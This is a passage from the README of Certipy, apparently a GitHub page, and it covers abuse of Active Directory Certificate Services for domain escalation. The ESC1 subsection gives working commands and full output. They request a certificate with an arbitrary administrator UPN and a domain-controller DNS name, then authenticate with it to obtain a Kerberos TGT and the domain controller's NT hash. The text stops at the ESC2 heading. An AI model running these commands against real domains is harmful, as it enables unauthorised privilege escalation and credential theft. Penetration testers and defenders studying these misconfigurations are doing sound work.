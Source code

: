 ### Domain Escalation

The following sections describe how to abuse various misconfigurations for domain escalations with Certipy. Certipy supports ESC1, ESC2, ESC3, ESC4, ESC6, ESC7, and ESC8. All escalation techniques are described in depth in [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2) and practical examples can be found in my blog post on the [Certipy 2.0](https://research.ifcr.dk/34d1c26f0dc6) release. Furthermore, ESC9 and ESC10 can be abused as well, but is not directly related to specific features of Certipy.

#### ESC1

ESC1 is when a certificate template permits Client Authentication and allows the enrollee to supply an arbitrary Subject Alternative Name (SAN).

For ESC1, we can request a certificate based on the vulnerable certificate template and specify an arbitrary UPN or DNS SAN with the `-upn` and `-dns` parameter, respectively.

```bash
$ certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -template ESC1-Test -upn administrator@corp.local -dns dc.corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 780
[*] Got certificate with multiple identifications
    UPN: 'administrator@corp.local'
    DNS Host Name: 'dc.corp.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_dc.pfx'
```

It is also possible to specify only a UPN or a DNS. In the case where both a UPN and DNS are specified, the `auth` command will ask you which identity to authenticate as.

```bash
$ certipy auth -pfx administrator_dc.pfx -dc-ip 172.16.126.128
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@corp.local'
    [1] DNS Host Name: 'dc.corp.local'
> 1
[*] Using principal: dc$@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'dc.ccache'
[*] Trying to retrieve NT hash for 'dc$'
[*] Got NT hash for 'dc$@corp.local': 36a50f712629962b3d5a3641529187b0
```

#### ESC2
